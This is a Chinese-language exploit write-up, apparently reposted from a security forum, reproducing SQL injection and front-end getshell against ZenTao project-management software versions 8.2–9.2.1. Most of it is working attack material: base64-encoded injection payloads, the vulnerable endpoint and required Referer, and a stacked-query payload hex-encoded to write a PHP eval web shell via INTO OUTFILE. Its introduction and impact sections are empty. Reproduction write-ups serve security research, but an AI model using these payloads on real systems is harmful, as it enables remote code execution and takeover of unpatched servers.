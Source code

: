 # 禅道8.2-9.2.1 注入GetShell

> 原文：[https://www.zhihuifly.com/t/topic/3361](https://www.zhihuifly.com/t/topic/3361)

# 禅道 8.2-9.2.1 注入&getshell

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

我这里用的官方集成环境版本8.4

```
获取版本号：/index.php?mode=getconfig 
```

![image](img/6e71c022c33bdb7f18a7472a2e70f5f1.png)

绝对路径

获取绝对路径：网址后面随便输入什么就会爆出绝对路径

![image](img/79cfb8728ab92196b9abb7c7e3deb1bd.png)

没路径的报错exp：

```
{"orderBy":"order limit 1,1 PROCEDURE ANALYSE(polygon(id),1)#","num":"1,1","type":"openedbyme"} 
```

base64加密：

```
eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMSwxIFBST0NFRFVSRSBBTkFMWVNFKHBvbHlnb24oaWQpLDEpIyIsIm51bSI6IjEsMSIsInR5cGUiOiJvcGVuZWRieW1lIn0= 
```

EXP

```
提交地址：http://127.0.0.1:81/zentao/index.php?m=block&f=main&mode=getblockdata&blockid=case&param=base64 
```

※exp需要base64加密后才能提交，且回显、写Shell须加上Referer：http://127.0.0.1:81/zentao/

注入显密码：

```
{"orderBy":"order limit 1;#","num":"1,1","type":"openedbyme"} 
```

base64加密：

```
eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMTsjIiwibnVtIjoiMSwxIiwidHlwZSI6Im9wZW5lZGJ5bWUifQ== 
```

不知道什么原因，本地复现无账号密码回显。。。

![image](img/68b8ad9ee090cd8e8155ebdf41ac74d4.png)

前台GetShell：

```
{"orderBy":"order limit 1;SET @SQL=0x73656C65637420273C3F70687020406576616C28245F504F53545B785D293F3E2720696E746F206F757466696C652027443A2F7A656E74616F2F78616D70702F7A656E74616F2F7777772F6861636B2E70687027;PREPARE pord FROM @SQL;EXECUTE pord;-- -","num":"1,1","type":"openedbyme"} 
```

其中有部分使用了MySQL的预处理查询绕过程序的过滤：

导出shell：

```
select '<?php @eval($_POST[x])?>' into outfile 'D:/zentao/xampp/zentao/www/hack.php' 
```

HEX编码：（注意加密解密都不带0x，但是EXP中需要加上）

```
73656C65637420273C3F70687020406576616C28245F504F53545B785D293F3E2720696E746F206F757466696C652027443A2F7A656E74616F2F78616D70702F7A656E74616F2F7777772F6861636B2E70687027 
```

base64加密：

```
eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMTtTRVQgQFNRTD0weDczNjU2QzY1NjM3NDIwMjczQzNGNzA2ODcwMjA0MDY1NzY2MTZDMjgyNDVGNTA0RjUzNTQ1Qjc4NUQyOTNGM0UyNzIwNjk2RTc0NkYyMDZGNzU3NDY2Njk2QzY1MjAyNzQ0M0EyRjdBNjU2RTc0NjE2RjJGNzg2MTZENzA3MDJGN0E2NTZFNzQ2MTZGMkY3Nzc3NzcyRjY4NjE2MzZCMkU3MDY4NzAyNztQUkVQQVJFIHBvcmQgRlJPTSBAU1FMO0VYRUNVVEUgcG9yZDstLSAtIiwibnVtIjoiMSwxIiwidHlwZSI6Im9wZW5lZGJ5bWUifQ== 
```

访问之即可在目录下生成hack.php：

![image](img/68b8ad9ee090cd8e8155ebdf41ac74d4.png)